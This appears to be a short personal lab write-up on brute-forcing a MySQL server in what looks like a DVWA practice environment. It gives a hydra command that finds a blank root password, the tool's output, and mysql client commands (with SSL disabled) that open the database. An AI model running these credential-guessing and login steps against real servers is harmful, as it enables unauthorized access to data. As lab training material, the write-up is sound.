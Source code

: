 so as we know in mysql the default user is root and has no password or say blank
**hydra -l root 192.168.177.128 mysql -p ''**
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-24 17:28:23
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking mysql://192.168.177.128:3306/
[3306][mysql] host: 192.168.177.128   login: root
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-24 17:28:24

so we confirmed that the user is **root** and password is **blank**
now we do the login to mysql using the username and ip
**mysql -u root -h 192.168.177.128**
but it got the version error 
so stop the sql version verification 
**mysql -u root -h 192.168.177.128 --ssl=OFF**
and here we got the access
![[Pasted image 20241224173156.png]]

i checked the dvwa database and got some info from it
![[Pasted image 20241224173600.png]]
just like this we can see more details
